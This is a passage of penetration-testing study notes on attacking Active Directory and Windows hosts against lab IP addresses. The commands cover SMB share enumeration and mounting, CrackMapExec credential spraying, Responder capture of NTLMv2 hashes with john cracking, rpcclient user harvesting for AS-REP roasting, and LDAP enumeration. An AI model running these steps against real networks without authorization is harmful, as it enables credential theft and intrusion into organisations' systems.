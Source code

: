 # Active Directory & Windows Machines {-}

## Interesting Windows ports {-}

- 53 DNS
- 88 Kerberos
- 139 NetBIOS session service
- 445 Server Message Block **SMB**
- 389 LDAP
- 1433 ms-sql
- 5985-5986 WinRM

> [!] NOTE: NetBIOS session service facilitates authentication aross a windows workgroup or domain and provides access to resources (such as files and printers)


## SMB connection with smbclient and smbmap {-}

**smbclient** is a tool that allows attacker to enumerate and list the shared resources of a machine that have the smb service on. 
You can start by using smbclient with a Null session by using the `-N` argument

```bash
smbclient -L 10.10.10.10 -N
```

As soon as you have listed those resources you can use **smbmap** to check the access, read or write rights that you have. You can also
specify the Null session by using the `-u 'null'` argument

```bash
smbmap -H 10.10.10.10 -u 'null'
smbmap -H 10.10.10.10 -u " " -p " "
```

As soon as you find a resource that you can access, you can use **smbclient** to connect to it. Again you can use the `-N` argument to tell
smbclient that you want to connect without asking for credentials.

```bash
smbclient //10.10.10.10/<Accessible resource>
```

> [!] NOTE: smbclient don't provide you a shell but a tool. **get filename.txt** allows you to download a resource if you are connected

If you see that you have access to the desired resource, you can mount the shared directory to your attacker machine.

```bash
mkdir /mnt/smbvictim
mount -t cifs "//10.10.10.10/<Accessible resource>" /mnt/smbvictim
```

You can also mount a directory with user credentials in order to get more information

```bash
mount -o user=<username> -t cifs //10.10.10.10/<folder> /mnt/smbvictim/
```

> [!] NOTE: A mounted partition is not a download of victim folders and file. That's only an access pass. Type `unmount /mnt/smbmounted` to close the
> mounted share.

One interesting point with smb is that there is some specified rights at the smb level that can varied. That means that it's not because the
shared resource is on READ ONLY mode that all the folders that this resource contains can not have a write right. You can check if some repository of 
this resource are writable with the **smbcacls** tool. The interesting right that we want to check is the Everyone.

```bash
smbcacls "10.10.10.10/<Accessible resource>" Users/amanda -N
```

The output will look as following:

```r
knitr::include_graphics("images/cacls-read.png")
```

It's interesting to mount the resource in the attacker machine because can do a one liner loop to check multiple folders rights filtering the information
by the Everyone key word.

```bash
cd /mnt/smbvictim/Users
ls -l | awk 'NF{print $NF}' | while read directory; do echo -e "\n[+] Directory $directory; smbcacls "10.10.10.10/<Accessible resource>" Users/$directory -N | grep -i everyone ; done
```

If you find a directory that have writable rights, something that can be intersting to check is that if you create a file in it, is somebody
manipulating it (remove it, writing on it, removing his content etc.). If it's the case, attacker have a way of stolling the hash NTLMv2 with
malicious **scf** file

## Get all files in a smb directory with smbget {-}

Using the mounted option is interessting, but sometimes attacker will find more convenient to download all the shared files in the attacker machine.
For this purpose, you can use the **smbget** utility.

```bash
smbget -R smb://10.10.10.10/<Accessible resource> -U username
```

Also possible for a specific folder inside the resource

```bash
smbget -rR smb://10.10.10.10/<Accessible resource>/directoryA/directoryB -U username
```

## Search for specific file with smbmap {-}

```bash
smbmap -R <Accessible resource> -H 10.10.10.10 -A Groups.xml -q 
```

## Enumerate machines and check user validity by SAMBA with CME {-}

**CrackMapExec** (a.k.a **CME**) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.

```bash
cme smb 192.168.0.0/24
```

**CME** can also enumerate a single machine,

```bash
cme smb 10.10.10.10
```

If we have credentials of a user, you can use **CME** to check the validity of a user. If the user with the password exists, the tool will
write a red plus sign, if not, a minus sign. And if the user exists and this one have admin priviledges on machines, **CrackMapExec** will
return a red plus sign and you will see a (Pwn3d!) in the result.

```bash
cme smb 10.10.10.10 -u 'user' -p 'password1'
```

You can also check the validity of multiple users with some discovered passwords

```bash
cme smb 10.10.10.10 -u users.txt -p passwords.txt
```

Here, something that can be interesting is to list the shared recourses for this user

```bash
cme smb 10.10.10.10 -u 'user' -p 'password1' --shares
```

## Sniffing traffic for SAMBA Relay with responder {-}

When SAMBA is created, by default SAMBA cert is not signed. That means that by default it's not possible to validate the origin legitimity. 
In this case Attacker can use tools like responder in order to sniff SAMBA communication traffic.

```bash
cd /usr/share/responder
# config file is in Responder.conf
python3 Responder.py -I eth0 -rdw
```

As soon as a connection is launched, you can see the communication. And because the SAMBA is not signed you can then get the **Hash Net-NTLMv2** of users.

```r
knitr::include_graphics("images/ad-hashnetntlmv2.png")
```

What attacker can do with this hash?

1. copy hashes in a file (*hashes*)
1. bruteforce hashes file with john

    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes
    ```

## RPC connection with rpcclient {-}

**Remote Procedure Call** aka **RPC** is a network protocol that allows to make calls of precedures on an external computer with an 
application server. This protocol is used in a client-server model in order to ensure the communication between the client, the server and
between possible intermediaries.

In the enumeration phase, attacker can check if it's possible to connect with a null session using the **rpcclient** with the `-U ""` arguments

```bash
rpcclient -U "" 10.10.10.10 -N
```

The connection with a valid user will be done as following

```bash
rpcclient -U "user%password" 10.10.10.10 -c <command>
```

Interesting command to execute with rpcclient are:

```bash
rpcclient -U "user%password" 10.10.10.10 -c 'enumdomusers'
rpcclient -U "user%password" 10.10.10.10 -c 'enumdomgroups'
# get the rid of domain admins -> 0x200 in this example
rpcclient -U "user%password" 10.10.10.10 -c 'querygroupmem 0x200'
# get the rid of the users -> 0x1f4 for example
rpcclient -U "user%password" 10.10.10.10 -c 'queryuser 0x1f4'
```

We can also prepare a list of users for a possible Asproasting Attack.

```bash
cd content
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]'
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > users.txt
```

## Enumerate ldap service with nmap {-}

```bash
locate .nse | grep "ldap"
```

```bash
nmap --script ldap\* 10.10.10.10 -oN ldapScan
```

## LDAP Port Get Domain objects with windapsearch {-}

```bash
git clone https://github.com/ropnop/windapsearch.git
pip install python-ldap #or apt-get install python-ldap
./windapsearch.py -d DOMAIN --dc-ip 10.10.10.10 -U
```

## LDAP enum with GetADUsers.py {-}

```bash
impacket-GetADUsers DOMAIN/ -dc-ip 10.10.10.10 -debug
```





